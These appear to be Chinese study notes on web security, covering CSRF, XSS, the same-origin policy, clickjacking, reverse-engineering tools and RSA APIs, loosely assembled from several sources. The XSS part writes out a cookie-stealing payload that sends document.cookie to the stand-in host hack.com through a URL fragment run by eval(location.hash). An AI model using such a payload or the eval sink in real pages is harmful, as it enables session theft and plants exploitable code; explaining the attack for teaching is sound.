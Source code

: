 CVE

# CSRF (Cross-site request forgery/跨站请求伪造)
1）前提：用户登录了A网站，有cookie；
2）登录了恶意网页B，网页的代码中会请求A网站；（相当于用户在不知情的情况下访问了A网站，如果A网站的接口是转账等接口，那么就会有财产损失）
防御）一般现代浏览器请求头都有：

# XSS (Cross Site Script/跨站脚本攻击) 


是当用户访问一个被内嵌了恶意代码的网站时，即使这个网站是官方网站，比如qq空间，还是会发送此网站的cookie给黑客
XSS 是在目标网站上放恶意脚本等着用户访问。
CSRF 是在恶意网站上跨域向目标网站发出访问请求(例如<img href>)，特点是无需JavaScript且要求用户已经登陆过目标网站。

如果我是网站开发者
在cookie中设置了HttpOnly属性，那么通过js脚本将无法读取到cookie信息，这样能有效的防止XSS攻击，具体一点的介绍请google进行搜索

如果百度上有个链接地址是
http://www.baidu.com/#new%20Image().src="http://hack.com?cookie="+escape(document.cookie)
同时页面会执行了如下script脚本
eval(location.hash.substr(1));
//location.hash 获取#和后面的东西
那么谁访问后都会把cookie泄露



同源是指，域名，协议，端口相同。

比如说，下面的几个域名是同源的：

http://example.com/

http://example.com:80/

http://example.com/path/file

它们都具有相同的协议、相同的域名、相同的端口(不指定端口默认80)。

而下面几个域名是不同源的：

http://example.com/

http://example.com:8080/

http://www.example.com/

https://example.com:80/

https://example.com/

http://example.org/

http://ietf.org/

它们有不同的协议或不同的域名或不同的端口，要注意顶级域名和二级域名也是认为不同的域名。
————————————————
版权声明：本文为CSDN博主「汤姆丁1111」的原创文章，遵循CC 4.0 BY-SA版权协议，转载请附上原文出处链接及本声明。
原文链接：https://blog.csdn.net/weixin_53841730/article/details/128812393



1.http://www.cr173.com/soft/14313.html           
ida：反汇编（分析强）
2.http://www.52pojie.cn/thread-350397-1-1.html    
ollydbg：反汇编（调试强，脱壳用）
3.http://rj.baidu.com/soft/detail/15788.html?ald   
wireshark：抓包
4.http://www.pc6.com/softview/SoftView_55129.html  
010Editor：二进制
5.http://www.uzzf.com/soft/25803.html             
Stud_PE：辅助学习PE




## 界面劫持

两层页面，用户看到的顶层，点击却点击到底层


|---|标准名称|---|
|---|---|---|
|RSA2|SHA256WithRSA|强制要求RSA密钥的长度至少为2048|
|RSA|SHA1WithRSA|对RSA密钥的长度不限制，推荐使用2048位以上|


对公钥处理的数据，其填充内容为伪随机的16进制字符串，每次操作的填充内容都不一样。这就是为什么每次使用公钥加密数据得到的结果都不一样

rsa加密数据中不允许存在\0

RSA解密API
int RSA_private_decrypt(int flen, unsigned char *from, unsigned char *to, RSA *rsa, int padding)
参数说明：
flen: 解密密钥长度
from: 要解密信息
to: 解密后的信息
padding: 填充方式( RSA_PKCS1_PADDING ，RSA_PKCS1_OAEP_PADDING，RSA_SSLV23_PADDING，RSA_NO_PADDING)